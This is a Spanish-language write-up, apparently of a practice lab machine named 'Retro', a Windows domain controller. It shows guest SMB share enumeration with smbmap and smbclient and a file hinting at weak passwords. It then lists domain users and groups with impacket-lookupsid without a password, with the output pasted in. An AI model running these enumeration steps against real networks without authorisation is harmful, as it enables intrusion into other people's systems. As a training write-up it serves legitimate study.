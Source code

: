 Con [[nvim]] logeados como sudo vamos a abrir el archivo /etc/hosts con `nvim /etc/hosts` para añadir los dominios
![[Retro37.png]]
```
10.129.234.44 retro.vl DC.retro.vl dc.retro.vl
```

![[Retro38.png]]

------
# Enumeracion con [[smbmap]] y [[smb]]
```
smbmap -u "guest" -p "" -P 445 -H retro.vl
```

![[Retro15.png]]
Vemos que podemos leer el recurso de *Trainees* asi que ahora con [[smb]] nos vamos a conectar

```
smbclient //10.129.234.44/Trainees -N -p 445
```

![[Retro11.png]]
Nos descargamos el archivo *Important.txt* con `get Important.txt` y lo abrimos con [[cat]] usando el comando `cat Important.txt`

![[Retro36.png]]
### La traduccion:

![[Retro35.png]]
Nos da a entender que las contraseñas van a ser faciles para que se las acurden los empleados

----
# Enumeracion [[impacket-lookupsid]], escalada al usuario trainess

```
impacket-lookupsid 'retro.vl/guest'@10.129.234.44 -no-pass
```
Puse usuario guest por que es el mas comun sin privilegios

![[Retro13.png]]
Ahora copie todo y lo puse en un archivo de texto que se llama *texto.txt*

```
498: RETRO\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: RETRO\Administrator (SidTypeUser)
501: RETRO\Guest (SidTypeUser)
502: RETRO\krbtgt (SidTypeUser)
512: RETRO\Domain Admins (SidTypeGroup)
513: RETRO\Domain Users (SidTypeGroup)
514: RETRO\Domain Guests (SidTypeGroup)
515: RETRO\Domain Computers (SidTypeGroup)
516: RETRO\Domain Controllers (SidTypeGroup)
517: RETRO\Cert Publishers (SidTypeAlias)
518: RETRO\Schema Admins (SidTypeGroup)
519: RETRO\Enterprise Admins (SidTypeGroup)
520: RETRO\Group Policy Creator Owners (SidTypeGroup)
521: RETRO\Read-only Domain Controllers (SidTypeGroup)
522: RETRO\Cloneable Domain Controllers (SidTypeGroup)
525: RETRO\Protected Users (SidTypeGroup)
526: RETRO\Key Admins (SidTypeGroup)
```